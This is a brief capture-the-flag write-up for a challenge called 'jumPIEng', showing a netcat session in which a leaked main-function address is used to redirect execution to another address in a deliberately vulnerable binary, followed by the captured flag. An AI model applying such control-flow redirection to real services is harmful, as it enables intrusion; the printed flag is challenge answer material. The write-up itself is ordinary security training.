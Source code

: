 # jumPIEng [200 points] (219 solves)
```bash
> nc 34.131.133.224 12346
Main function address: 0x55be313d11a9
Enter a redirection address (e.g.- 0x33012a): 0x55be313d1262
0x55be313d1262
Redirecting to address 0x55be313d1262!
Error: Could not locate 'flag.txt'
Flag: ACECTF{57up1d_57up1d_h4rry}
```

flag: `ACECTF{57up1d_57up1d_h4rry}`